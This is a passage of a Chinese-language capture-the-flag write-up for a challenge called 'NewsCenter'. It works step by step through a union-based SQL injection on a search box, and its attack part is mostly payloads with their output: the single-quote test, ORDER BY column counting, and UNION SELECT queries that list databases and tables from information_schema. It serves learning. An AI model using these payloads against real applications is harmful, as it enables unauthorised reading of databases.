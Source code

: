 ## 0x06 NewsCenter

第一道独立完整做出来的sql注入题，

算是一种套路吧。

题目给了一个搜索框，根据搜索内容显示新闻内容



首先尝试单引号，看看会不报错

```
1'
->
Error
```

结果真的报错了，但是显示服务器500错误，拿不到报错提示信息

但是应该可以确定就是单引号的报错了

尝试有没有回显点

先看看有几个回显点

```
1' order by 3#
->

1' order by 4#
->
Error
```

有三个

构造union查询

```
1' union select 1,2,group_concat(SCHEMA_NAME) from information_schema.SCHEMATA#
->
2
information_schema,news
```

可以正常回显

接下来就是套路了

根据查库接着查表

> 0x6E657773是"news"对应的hex值

```
1' UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x6E657773 #
->
2
news,secret_table
```
